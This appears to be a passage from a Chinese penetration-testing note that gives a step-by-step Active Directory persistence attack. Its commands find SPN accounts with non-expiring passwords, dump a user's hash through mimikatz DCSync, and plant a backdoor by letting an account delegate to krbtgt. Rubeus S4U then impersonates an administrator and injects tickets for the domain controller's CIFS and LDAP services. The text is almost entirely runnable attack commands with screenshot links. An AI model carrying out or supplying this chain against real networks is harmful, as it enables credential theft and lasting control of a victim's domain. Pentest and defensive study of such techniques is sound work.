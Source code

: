 	域控执行，寻找具备SPN且密码永不过期的账户
	>Get-ADUser -Filter * -Properties ServicePrincipalName,PasswordNeverExpires| ? {($_.ServicePrincipalName -ne "") -and ($_.PasswordNeverExpires -eq $true)}
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/553.png)

	使用mimikatz的dcsync提取用户hash
	>lsadump::dcsync /domain:zone.com /user:y
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/554.png)
	
	布置后门
	>Set-ADUser krbtgt -PrincipalsAllowedToDelegateToAccount 账户
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/555.png)

	布置完成后利用，登录账户y
	触发后门
	>Rubeus.exe s4u /user:y /aes256:{aes256} /domain:zone.com /msdsspn:krbtgt /impersonateuser:godadmin
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/556.png)

	注入票据，获取域控的CIFS、LDAP服务
	>Rubeus.exe asktgs /ticket:{} /service:cifs/dc.zone.com,ldap/dc.zone.com /ptt
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/557.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/558.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/559.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/560.png)